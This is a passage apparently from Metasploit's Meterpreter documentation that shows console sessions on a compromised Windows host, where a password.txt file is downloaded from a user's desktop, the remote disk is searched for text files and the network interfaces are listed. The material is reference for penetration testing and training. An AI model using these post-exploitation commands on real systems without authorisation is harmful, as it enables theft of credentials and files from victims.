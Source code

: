 ```
meterpreter > download C:\\Users\\sinn3r\\Desktop\\password.txt
[*] downloading: C:\Users\sinn3r\Desktop\password.txt -> password.txt
[*] download   : C:\Users\sinn3r\Desktop\password.txt -> password.txt
```

**search command**

The ```search``` command allows you to find files on the remote file system. For example, this
demonstrates how to find all text files in the current directory:

```
meterpreter > search -d . -f *.txt
Found 1 result...
    .\password.txt (11 bytes)
```

Note that without the ```-d``` option, the command will attempt to search in all drives.

The ```-r``` option for the commands allows you to search recursively.

**ifconfig/ipconfig command**

The ```ifconfig``` command displays the network interfaces on the remote machine:

```
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 2
============
Name         : Intel(R) PRO/1000 MT Network Connection
Hardware MAC : 00:0c:29:eb:33:d9
MTU          : 1500
IPv4 Address : 172.16.23.185
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::5911:c25:bd50:5a6d
IPv6 Netmask : ffff:ffff:ffff:ffff::

meterpreter >
```
The command ```ipconfig``` is an alias for ```ifconfig```.

**getuid command**

The ```getuid``` command shows you the current user that the payload is running as:

